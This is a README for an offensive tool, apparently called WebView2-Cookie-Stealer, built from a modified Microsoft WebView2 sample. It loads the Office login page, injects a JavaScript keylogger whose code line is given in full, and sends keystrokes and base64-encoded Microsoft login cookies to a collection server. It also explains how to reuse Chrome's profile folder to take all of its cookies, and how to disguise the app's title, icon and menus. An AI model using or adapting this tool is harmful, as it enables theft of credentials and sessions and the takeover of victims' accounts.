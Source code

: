 # Blog Post

Please read <a href="https://mrd0x.com/attacking-with-webview2-applications/" target="_blank">this blog post</a> to get more information.

# Source Code

This code is a modified version of <a href="https://github.com/MicrosoftEdge/WebView2Samples" target="_blank">Microsoft's WebView2 Code</a>. The current code can be cleaned up and made much better.

# Demo

## Launch Example

<img src="https://github.com/mrd0x/WebView2-Cookie-Stealer/blob/main/launch.gif">

## Usage Example

<img src="https://github.com/mrd0x/WebView2-Cookie-Stealer/blob/main/demo2.gif">

# Usage

**Tested on Windows 10 & 11.**

When the binary is executed ```https://office.com/login``` is loaded up. A JavaScript keylogger is injected into every page and keystrokes are sent to ```http://127.0.0.1:8080```. Furthermore, upon the user successfully authenticating the cookies for ```login.microsoftonline.com``` are base64-encoded and sent to ```http://127.0.0.1:8080``` via an HTTP GET request.

# Modifying JavaScript

If you'd like to modify the JavaScript the code that needs to be changed is shown below at ```line 1096``` in ```AppWindow.cpp```.

```
coreWebView2->AddScriptToExecuteOnDocumentCreated(L"var link = \"http://127.0.0.1:8080/keylog?k=\";var l = \"\";document.onkeypress = function (e){l += e.key;var req = new XMLHttpRequest();req.open(\"GET\",link.concat(l), true);req.send();}", nullptr);
```

# Stealing Chrome Cookies

WebView2 allows you to launch with an existing User Data Folder (UDF) rather than creating a new one. The UDF contains all passwords, sessions, bookmarks etc. Chrome's UDF is located at ```C:\Users\<username>\AppData\Local\Google\Chrome\User Data```. We can simply tell WebView2 to start the instance using this profile and upon launch extract all cookies and transfer them to the attacker's server.

The only catch is that WebView2 looks for a folder called ```EBWebView``` instead of ```User Data``` (not sure why). Copy the ```User Data``` folder and rename it to ```EBWebView```.

## Required Changes

* At ```line 41``` in ```app.cpp```:
  * Change ```std::wstring userDataFolder(L"");``` to ```std::wstring userDataFolder(L"C:\\Path\\To\\Temp");```
  * The specified folder must contain the ```EBWebView``` folder which WebView2 will read from.

* At ```line 40``` in ```ScenarioCookieManagement.cpp```:
  * Change ```GetCookiesHelper(L"https://login.microsoftonline.com");``` to ```GetCookiesHelper(L"");```

When GetCookiesHelper is invoked without any website being provided it will extract all cookies.

**Note: This will not work with the current application if there is a large quantity of cookies because the application sends them using a GET Request which has a length limit.**

# Important Functions

If you'd like to make modifications to the binary you'll find information about the important functions below.

* AppStartPage.cpp - ```GetUri()``` function has the URL that is loaded upon binary execution.
* ScenarioCookieManagement.cpp - ```SendCookies()``` function contains the IP address and port where the cookies are sent.
* AppWindow.cpp - ```CallCookieFunction()``` function waits until the URL starts with ```https://www.office.com/?auth=``` and calls ```ScenarioCookieManagement::GetCookiesHelper(L"https://login.microsoftonline.com")```
* WebView2APISample.rc - Cosmetic changes
  * Remove the menu bar by setting all ```POPUP``` values to ```""```.
  * Change ```IDS_APP_TITLE``` and ```IDC_WEBVIEW2APISAMPLE```. This is the name of the application in the title bar.
  * Change ```IDI_WEBVIEW2APISAMPLE``` and ```IDI_WEBVIEW2APISAMPLE_INPRIVATE``` and ```IDI_SMALL```. These point to a ```.ico``` file which is the icon for this application.
* Toolbar.cpp - ```itemHeight``` must be set to 0 to remove the top menu. This is already taken care of in this code.
* AppWindow.cpp - ```LoadImage()``` should be commented out. This hides the blue splash image. This is already taken care of in this code.
* App.cpp - ```new AppWindow(creationModeId, WebViewCreateOption(), initialUri, userDataFolder, false);``` change the last param value to ```true```. This hides the toolbar. This is already taken care of in this code.
